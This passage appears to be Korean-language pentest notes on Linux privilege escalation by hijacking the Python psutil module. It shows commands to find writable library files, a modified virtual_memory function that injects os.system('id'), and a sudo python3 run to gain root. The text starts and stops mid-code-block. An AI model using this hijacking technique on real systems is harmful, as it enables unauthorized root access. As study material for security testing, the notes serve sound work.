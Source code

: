 ```gcc src.c -fPIC -shared -o /development/libshared.so```<br/>

print(f"Available memory: {round(available_memory, 2)}%")
```

### 모듈 권한
```grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*```<br/>
```ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py```

### 모듈 내용
```python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

### 모듈 내용 - 하이재킹
```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

### 권한 상승
```sudo /usr/bin/python3 ./mem_status.py```

<br/><br/>
## Library Path

### PYTHONPATH Listing
```python3 -c 'import sys; print("\n".join(sys.path))'```

### Psutil 기본 설치 위치
```pip3 show psutil```

### 잘못 구성된 디렉토리 권한 (쓰기 권한)
```
ls -la /usr/lib/python3.8

